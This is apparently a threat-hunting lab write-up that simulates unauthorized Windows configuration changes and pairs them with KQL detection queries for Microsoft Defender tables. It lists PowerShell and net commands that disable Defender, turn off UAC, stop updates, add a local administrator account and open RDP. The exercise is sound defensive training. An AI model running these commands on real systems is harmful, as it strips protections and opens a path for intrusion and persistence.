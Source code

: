 # Threat Event (Suspicious System Configuration Changes)
**Unauthorized Changes to System Configurations**

## Steps the "Bad Actor" Took Create Logs and IoCs:
1. Disable Windows Defender using PowerShell: `Set-MpPreference -DisableRealtimeMonitoring $true`
2. Modify UAC settings in the registry: `Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0`
3. Disable automatic updates by creating a registry key: `New-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\WindowsUpdate\AU" -Name "NoAutoUpdate" -Value 1 -PropertyType DWORD`
4. Create a new local administrator account: `net user NewAdminAccount Password123! /add && net localgroup administrators NewAdminAccount /add`
5. Add a firewall rule to allow inbound traffic on port 3389: `New-NetFirewallRule -DisplayName "Simulate RDP Rule" -Direction Inbound -Protocol TCP -LocalPort 3389 -Action Allow`

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents                                                            |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose**| Used to detect any PowerShell or command-line activities related to disabling Defender, enabling RDP, or modifying system configurations. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceRegistryEvents                                                           |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceregistryevents-table |
| **Purpose**| Used to detect suspicious registry modifications such as disabling UAC, modifying firewall rules, or changing update policies. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents                                                              |
| **Info**| https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose**| Used to detect unauthorized software installations, changes to local administrator accounts, or file creations associated with persistence. |

---

## Related Queries:
```kql
// Detect PowerShell commands that modify system configurations (e.g., disabling Defender)
DeviceProcessEvents
| where FileName == "powershell.exe" and ProcessCommandLine contains "Set-MpPreference"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Detect UAC modifications in the registry
DeviceRegistryEvents
| where RegistryKey == "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" and RegistryValueName == "EnableLUA"
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, RegistryValueData

// Detect RDP enabling via command line or registry
DeviceProcessEvents
| where FileName == "cmd.exe" and ProcessCommandLine contains "Set-ItemProperty" and ProcessCommandLine contains "fDenyTSConnections"
| project Timestamp, DeviceName, ActionType, ProcessCommandLine

// Detect new local admin accounts or privilege escalations
DeviceProcessEvents
| where FileName == "net.exe" and ProcessCommandLine contains "localgroup administrators"
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine

// Detect unauthorized software installations
DeviceFileEvents
| where FileName in~ ["unauthorized_tool.exe", "unapproved_installer.exe"]
| project Timestamp, DeviceName, ActionType, FileName
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47/
- **Date**: January 24, 2024

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**
